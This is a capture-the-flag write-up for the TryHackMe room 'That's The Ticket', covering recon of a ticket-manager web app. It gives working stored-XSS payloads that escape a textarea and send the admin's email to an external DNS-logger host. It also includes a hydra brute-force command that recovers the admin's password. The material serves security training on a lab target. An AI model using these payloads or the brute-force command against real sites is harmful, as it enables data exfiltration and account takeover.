

# TryHackMe-That's The Ticket

**Scope:**

- DNS Logger
- Cross Site Scripting (XSS)

**Keywords:**

- Internal Logic Discovery & Endpoint Control
- HTML Injection & Cross Site Scripting (XSS)
- DNS Logger & Cross Site Scripting (XSS)
- Login Brute Force

**Main Commands:**

- `nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -p- --min-rate 1000 --max-retries 3 $target_ip`
- `cat /usr/share/seclists/Fuzzing/special-chars.txt | awk '{print $1}' ORS=`
- `curl --path-as-is -iskLX $'GET' -b $'token=f986063f5e03865bbecb12613efb0c76' $'http://ticket.thm/2'`
- `hydra -l 'adminaccount@itsupport.thm' -P /usr/share/wordlists/rockyou.txt ticket.thm http-post-form "/login:email=^USER^&password=^PASS^&Login=Login:Invalid email / password combination" -V -t 50 -F`

### Laboratory Environment

[That's The Ticket](https://tryhackme.com/r/room/thatstheticket)

> **Laboratory Requirements**
> 

```jsx
Hint: Our HTTP & DNS Logging tool on http://10.10.10.100 may come in useful!
```

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -p- --min-rate 1000 --max-retries 3 $target_ip`

```jsx
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bf:c3:9c:99:2c:c4:e2:d9:20:33:d1:3c:dc:01:48:d2 (RSA)
|   256 08:20:c2:73:c7:c5:d7:a7:ef:02:09:11:fc:85:a8:e2 (ECDSA)
|_  256 1f:51:68:2b:5e:99:57:4c:b7:40:15:05:74:d0:0d:9b (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Ticket Manager > Home
```

> **HTTP Port Check**
> 

`curl -iLX GET -D response.txt http://ticket.thm`

```jsx
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 21 Dec 2024 10:17:57 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive

<!DOCTYPE html>
<html lang="en">
<head>
    <title>Ticket Manager > Home</title>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" href="/bootstrap.min.css" integrity="sha384-BVYiiSIFeK1dGmJRAkycuHAHRg32OmUcww7on3RYdg4Va+PmSTsz/K68vbdEjh4u" crossorigin="anonymous">
</head>
<body>
<div class="container" style="padding-top:60px">
    <h1 class="text-center">Ticket Manager</h1>
    <div class="row">
        <div class="col-md-6 col-md-offset-3">
            <div class="panel panel-default">
                <div class="panel-heading">What is Ticket Manager?</div>
                <div class="panel-body text-center">
                    Ticket Manager allows AcmeCorp employees to log support tickets with IT support
                </div>
            </div>
            <div class="text-center"><a href="/login" class="btn btn-success">Login</a> or <a href="/register" class="btn btn-info">Register</a></div>
        </div>
    </div>
</div>
<script src="/jquery.min.js"></script>
<script src="/bootstrap.min.js"></script>
</body>
</html>
```

> **Internal Logic Discovery & Endpoint Control Phase**
> 




**CREDENTIAL:**

```jsx
overthenet@overthenet.com : overthenet
```


`cat /usr/share/seclists/Fuzzing/special-chars.txt | awk '{print $1}' ORS=`

```jsx
~!@#$%^&*()-_+={}][|\`,./?;:'"<>
```


`curl --path-as-is -iskLX $'GET' -b $'token=f986063f5e03865bbecb12613efb0c76' $'http://ticket.thm/2'`

```jsx
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 21 Dec 2024 10:26:07 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive

[REDACTED] - MORE

<div><textarea class="form-control" style="height: 200px">~!@#$%^&*()-_+={}][|\`,./?;:'"<></textarea></div>

[REDACTED] - MORE
```

> **HTML Injection & Cross Site Scripting (XSS) Phase**
> 


> **DNS Logger & Cross Site Scripting (XSS) Phase**
> 


**SERVER:**

```jsx
b6aeafc011fd73284e5c063feab7db12.log.tryhackme.tech
```

**NOTE:**

```jsx
You can try the steps here several times.
Therefore, even if the server information changes, the approach is the same.
Don't mind the differences in the visual.
```


**PAYLOAD:**

```jsx
</textarea><textarea>
```


**PAYLOAD:**

```jsx
</textarea><script>
const xhr = new XMLHttpRequest();
xhr.open("GET", "http://5178f2e5af1900ce052f7d94d8e63dc9.log.tryhackme.tech")
xhr.send()
</script>
```


**PAYLOAD:**

```jsx
</textarea><script>
var text = document.getElementById('email').textContent.replace("@", "0").replace(".", "1");
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://"+text+".48df9861105fea489174f0a594a938c7.log.tryhackme.tech");
xhr.send();
</script>
```


**OUTPUT:**

```jsx
adminaccount0itsupport1thm = adminaccount@itsupport.thm
```

> **Login Brute Force Phase**
> 

`hydra -l 'adminaccount@itsupport.thm' -P /usr/share/wordlists/rockyou.txt ticket.thm http-post-form "/login:email=^USER^&password=^PASS^&Login=Login:Invalid email / password combination" -V -t 50 -F`

```jsx
[80][http-post-form] host: ticket.thm   login: adminaccount@itsupport.thm
password: 123123
```

> **Admin Account Access Phase**
> 


